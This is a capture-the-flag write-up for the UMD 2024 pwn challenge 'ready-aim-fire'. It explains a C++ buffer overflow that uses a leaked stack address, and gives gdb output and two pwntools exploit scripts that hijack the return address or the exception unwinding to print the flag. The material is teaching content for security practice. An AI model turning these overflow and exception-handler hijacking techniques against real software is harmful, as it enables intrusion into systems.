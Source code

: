 ```yaml
---
title: ready-aim-fire
type: writeup
date: 2024-04-26T14:23:28+03:00
description: Writeup for ready-aim-fire [UMD 2024]
author: PineBel
tags:
  - pwn
draft: false
---
```

## Challenge Description

Firing your weapon when the spice harvester's shields are down requires exceptional timing.

### Intuition
This was a fun challenge which I solved in an unintended way, I will also present the intended solution because it's very interesting. 
We get the source code (and binary) for this challenge and we can see that we have a BOF in the fire method from the Cannon object and we also have a stack leak.

```C
void print_flag() {
    ifstream f{"./flag.txt"};
    if (!f.is_open()) {
        cout << "Failed to open flag file. Contact CTF organizers if you see this error." << endl;
    } else {
        string flag;
        f >> flag;
        cout << flag << endl;
    }
}


void direct_hit() {
    try {
        throw exception{};
    } catch (exception e) {
        cout << "Direct hit!" << endl;
        print_flag();
    }
}

class Cannon {
public:
    int bufIndex;
    char buf[32];

    Cannon(): bufIndex(0) {}

    void fire() {
        char c ;
        for (;;) {      
            cin.get(c);   
            if (c == '\n') {
                break;
            } else {
                buf[bufIndex++] = c;  // <-- overflow     
            }
        }
        if (bufIndex >= 32) {
            throw out_of_range{""};
        }
    }
};

void fire_weapon() {
    Cannon w;
    w.fire();
}

int main() {
    int target_assist;
    cout << "Quick! While the spice harvester's shields are down! Fire the laser cannon!" << endl;
    cout << &target_assist << endl;  // <-- stack leak 

    try {
        fire_weapon();
        cout << "Looks like you missed your opportunity to fire." << endl;
    }
    catch (exception e) {
        cout << "Seems like you missed." << endl;
    }
}
```

We can see that there is a constraint though, if we do a BOF, it will trigger an exception, which will be caught in the main function. Additionally, I noticed an extra function called 'direct_hit,' which suggested that we should attempt to redirect the exception thrown during a BOF into the catch block of 'direct_hit()' to print the flag (the intended solution). Unfortunately, my implementation didn't work as expected. Therefore, my next idea was to overwrite the return address of the main function with the address of 'print_flag()' after the exception was triggered.

### Solution

#### Unintended

When first trying to do the BOF with an input of length 33 the program crashed in the exception handler and printed "Seems like you missed.". 
If we give an input longer than 44 we will start overwriting the RBP and the program will crash. 
This happens because we don't return in a 'normal' way to main but through exception throwing.

We can see in the image below that the RBP value is used in the exception handler, which is called when the bufferIndex is greater than 32 (input: "A"*44 + "X"*8).

```c
0x00007ffd8a60ad20│+0x0000: "XXXXXXXX+'@"        ← $rsp, $rbp   <-- crash  
0x00007ffd8a60ad28│+0x0008: 0x000000000040272b  →  <main+270> mov rax, rbx  
0x00007ffd8a60ad30│+0x0010: 0x004023e630303030
0x00007ffd8a60ad38│+0x0018: 0x004023e600000000
0x00007ffd8a60ad40│+0x0020: 0x004023e600000000
0x00007ffd8a60ad48│+0x0028: 0x004023e600000000
0x00007ffd8a60ad50│+0x0030: 0x004023e600000000
0x00007ffd8a60ad58│+0x0038: 0x004023e600000000
─────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40283a <std::exception::exception(std::exception const&)+12> mov    QWORD PTR [rbp-0x10], rsi
     0x40283e <std::exception::exception(std::exception const&)+16> lea    rdx, [rip+0x255b]        # 0x404da0 <_ZTVSt9exception@GLIBCXX_3.4+16>
     0x402845 <std::exception::exception(std::exception const&)+23> mov    rax, QWORD PTR [rbp-0x8]
●→   0x402849 <std::exception::exception(std::exception const&)+27> mov    QWORD PTR [rax], rdx
     0x40284c <std::exception::exception(std::exception const&)+30> nop    
     0x40284d <std::exception::exception(std::exception const&)+31> pop    rbp
     0x40284e <std::exception::exception(std::exception const&)+32> ret    
     0x40284f                  nop    
     0x402850 <Cannon::Cannon()+0> endbr64 

```

To address this issue, we need a valid address for RBP after our input of length 44. This address can be the stack leak we get.
Because the stack leak address and the address where RBP is used are very close, we need to add an offset to avoid interfering with the stack when executing future instructions. Therefore, I subtracted 0x10 from the stack leak address.
The goal here is to make the exception execute normally so that we return to main and overwrite the return address of main. 
To achieve this, I needed to replicate the stack.
So I extended the payload with an address that was normally on the stack (this was found by running the program with gdb),
ensuring that the exception would execute smoothly and return in the the main function.
To complete the exploit, I added the address of the print_flag function to the end of the payload. 


```py
payload = b"a"*44 


print_flag = p64(0x4023e6) 
og_main = p64(0x4026be) # replicate stack 
 

target.recvuntil(b"Fire the laser cannon!")
recvline = target.recvline()
print(recvline)

stack_leak = target.recvline()
print(hex(int(stack_leak.decode(),16)))
stack_leak = p64((int(stack_leak.decode(),16))-0x10) 

payload += stack_leak 

payload += og_main   
payload += b"0000"+print_flag 
target.sendline(payload)
target.interactive()
```

Although I like this solution the intended one is more elegant.

#### Intended

The intended solution is similar to the unintended one but the main idea is to just overwrite the exception catch from fire() to the one from direct_hit().

```py
target  .recvuntil(b"Fire the laser cannon!")
recvline =  target.recvline()
stack_leak =  target.recvline()
stack_leak = p64((int(stack_leak.decode(),16))-0x10)
payload += stack_leak 
payload += p64(0x402547) # catch from direct_hit
target.sendline(payload)
```

Some other interesting things about the exception handler is that it works stack frame by stack frame. When an exception is thrown the current RIP searches in the .eh_frame section if it's in a catch block in that function. If it's found then it will jump to the catch block otherwise it will unwind the stack to clean it. After this it uses the stored return address to repeat this process on the next stack frame and comparing it to the .eh_frame table. The process goes on until either the exception is caught or it reaches the base exception handler.





